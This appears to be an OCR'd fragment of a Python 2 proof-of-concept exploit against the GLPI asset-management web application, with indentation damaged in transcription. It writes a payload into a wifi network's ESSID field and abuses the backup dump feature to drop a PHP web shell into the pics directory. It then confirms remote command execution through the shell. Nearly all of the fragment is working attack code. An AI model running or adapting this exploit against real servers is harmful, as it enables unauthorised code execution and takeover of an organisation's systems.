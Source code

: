                     #edit the network name and essid
                    r = self.session.get('{0}/front/{1}'.format(self.url, link))
                    try:
                        csrf_token = self.extract_csrf(r.text)
                except Exception as e:
                    print "[-] Edit network error: could not retrieve form data"
                    sys.exit(1)

                rawlinkparts = rawlink.split("=")
                networkid = rawlinkparts[-1]

                    data = {
                    "entities_id": "0",
                    "is_recursive": "0",
                    "name": "PoC",
                    "comment": comment,
                    "essid": "RCE"+padding,
                    "mode": "ad-hoc",
                    "update": "Save",
                    "id": networkid,
                        "_glpi_csrf_token": csrf_token,
                        "_read_date_mod": datemod
                    }
                    r = self.session.post('{0}/front/wifinetwork.form.php'.format(self.url), data=data)
                    print "[+] Network mofified"
                    print "      New ESSID: RCE"+padding

        def create_dump(self, shellname):
            path=''
            if self.platform == "Win":
                path="C:\\xampp\\htdocs\\pics\\"
            elif self.platform == "Nix":
                path="/var/www/html/glpi/pics/"

            #adjust offset number to match the table number for wifi_networks
            #this can be found by downloading a SQL dump and running cat <dumpname> | grep "CREATE TABLE" | grep -n "wifinetworks"
            r = self.session.get('{0}/front/backup.php?dump=dump&offsettable=312&fichier={1}{2}'.format(self.url, path, shellname))

            print '[+] Shell: {0}/pics/{1}'.format(self.url, shellname)

        def shell_check(self, shellname):
            r = self.session.get('{0}/pics/{1}?0=echo%20asdfasdfasdf'.format(self.url, shellname))
            print "      Shell size: "+str(len(r.content))
            if "asdfasdfasdf" in r.content:
                print "[+] RCE FOUND!"
                sys.exit(1)
            return len(r.content)

        def pwn(self):
            if not self.login():
                print "[-] Login error"
                return
            else:
                print "[+] Logged in"
